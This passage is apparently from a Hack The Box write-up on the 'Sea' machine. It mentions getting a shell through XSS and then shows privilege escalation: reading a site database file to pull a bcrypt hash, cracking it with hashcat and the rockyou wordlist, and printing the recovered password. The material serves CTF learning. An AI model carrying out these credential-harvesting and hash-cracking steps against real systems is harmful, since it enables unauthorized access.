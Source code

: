 ![xssattack](3.png)

Now we setup a listener and wait.

![shell](4.png)

We got a shell!

## **Privilege Escalation**

Checking the files on the website's root directory we can find a password hash.

```terminal
www-data@sea:/tmp$ cat /var/www/sea/data/database.js  
{                                
    "config": {                                                                                          
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,                                                                            
        "forceHttps": false,                                                                             
        "saveChangesPopup": false,                                                                                                                                                                                 
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": 
[...]
```

Let's crack the hash, but first we need to remove the backslashes `\`.

```terminal
┌─[eu]─[10.10.16.62]─[sirius@parrot]─[~/CTF/HTB/sea]                                                     
└──╼ [★]$ hashcat file.hash /usr/share/wordlists/rockyou.txt -m 3200                                      
hashcat (v6.2.6) starting
                                                                                                         
OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-12th Gen Intel(R) Core(TM) i7-1255U, 2899/5863 MB (1024 MB allocatable), 4MCU
                                                                                                         
Minimum password length supported by kernel: 0                                                           
Maximum password length supported by kernel: 72                                                          
                                                                                                         
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1                        
                                                                                                         
Optimizers applied:                                                                                      
* Zero-Byte                             
* Single-Hash                    
* Single-Salt                           

$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
```
